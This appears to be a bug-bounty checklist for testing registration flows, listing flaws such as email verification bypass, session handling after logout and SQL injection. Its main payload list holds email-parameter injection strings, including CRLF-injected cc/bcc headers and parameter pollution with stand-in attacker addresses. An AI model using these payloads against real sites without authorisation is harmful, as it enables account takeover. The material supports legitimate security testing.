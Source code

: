 - [ ] <span style="color:#06ea6c">Broken Link Hijacking</span> via this [Extension](https://addons.mozilla.org/en-US/firefox/addon/find-broken-links/)
- [ ] <span style="color:#06ea6c">HTML Injection</span> ( Email Triggering , forms, meta tags .... )
- [ ] Failure to Invalidate Session > On <span style="color:#06ea6c">Logout</span> (Client and Server-Side)
    - In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out
- [ ] <span style="color:#06ea6c">No Password Policy</span> -> Password:`123`

> ***[[Registration]] Abuse***

 - [ ] <span style="color:#06ea6c">Username/Email Enumeration > Non-Brute Force</span>
- [ ] <span style="font-weight:bold; color:#ff0000">SQL Injection</span>
- [ ] Signup and don't confirm the your email -> change email to others emails like `suppor@bugcrowd.com` -> confirm old email -> ***Email Verification Bypass***
- [ ] Email Verification link <span style="color:#06ea6c">Doesn't Expire After Email Change</span>
- [ ] Verification link **leaked in the response**
- [ ] Verification Bypass via **Response Manipulation**
- [ ] **[Ability to bypass partner email confirmation to take over any store given an employee email](https://hackerone.com/reports/300305)**
- [ ] Signup and don't confirm the your email `emailA@gmail.com` -> change email to others emails like `emaiB@gmail.com` -> confirm new email -> Re-change email to your old Email -> ***Email Verification Bypass***
- [ ] *<span style="font-style:italic; font-style:italic; font-weight:bold; color:#ff0000">ATO</span> or **Duplicate Registration** by **manipulating email parameter (BAC)**
	```python
	H0tak88r@bugcrowdninja.com
	MAybeeEE@GmaiL.coM
	h0tak88r+1@bugcrowdninja.com
	h0tak88r@bugcrowdninja.com a
	h0tak88r%00@bugcrowdninja.com
	h0tak88r%09@bugcrowdninja.com
	h0tak88r%20@bugcrowdninja.com
	victim@gmail.com@attacker.com
	victim@gmail.com@attacker.com
	victim@mail.com%0A%0Dcc:hacker@mail.com
	victim@mail.com%0A%0Dbcc:hacker@mail.com
	{"email":["victim@mail.com","hacker@mail.com"]}
	victim@mail.com&email=hacker@mail.com
	victim@mail.com,hacker@mail.com
	victim@mail.com%20hacker@mail.com
	victim@mail.com|hacker@mail.com
	victim@mail.com&Email=attacker@mail.com
	email@email.com,victim@hack.secry
	email@email“,”victim@hack.secry
	email@email.com:victim@hack.secry
	email@email.com%0d%0avictim@hack.secry
	%0d%0avictim@hack.secry
	%0avictim@hack.secry
	victim@hack.secry%0d%0a
	victim@hack.secry%0a
	victim@hack.secry%0d
	victim@hack.secr%00
	victim@hack.secry{{}}
	victim@gmail.com\n
	```
